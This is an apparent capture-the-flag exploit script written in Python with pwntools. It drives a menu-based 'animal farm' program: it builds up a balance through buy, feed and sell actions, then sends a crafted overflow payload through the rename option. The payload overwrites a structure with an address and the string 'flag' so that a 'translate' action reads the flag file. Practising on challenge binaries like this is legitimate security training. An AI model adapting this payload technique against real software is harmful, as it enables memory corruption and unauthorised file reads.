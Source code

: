 ``` python
    print("Balance: " + str(price))
    if price > 1350:
        break
    if price > 800:
        feed()

    # needs 150c
    log.info("Buying pig")
    buy_sec_animal()

    price = check_price()
    print("Balance: " + str(price))
    #if price > 350:
    #    feed()
    
    # needs 100c
    log.info("Changing max age of animal[1]")
    change_max_age()
    
    price = check_price()
    print("Balance: " + str(price))
    #if price > 350:
    #    feed()

    # no money is needed
    log.info("Selling animal[1]")
    sell_animal()
    
feed() 

price = check_price()
print("Balance: " + str(price))

log.info("Buying pig")
buy_sec_animal()

log.info("rename the type")
r.recvuntil(b'> ')
r.sendline(b'2')
r.recvuntil(b'animal? ')
r.sendline(b'0')
r.recvuntil(b'> ')
r.sendline(b'3')
r.recvuntil(b'animal? ')
payload = b'A'*16 + b'\x00' * 12 + b'\x41' + b'\x00' * 7 + b'\x78\x4d\x40\x00\x00\x00\x00\x00\x66\x6c\x61\x67\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x00'
r.sendline(payload)

log.info("buy translator")
r.recvuntil(b'> ')
r.sendline(b'4')

log.info("translate")
r.recvuntil(b'> ')
r.sendline(b'2')
r.recvuntil(b'animal? ')
r.sendline(b'1')
r.recvuntil(b'> ')
r.sendline(b'4')

r.interactive()
```
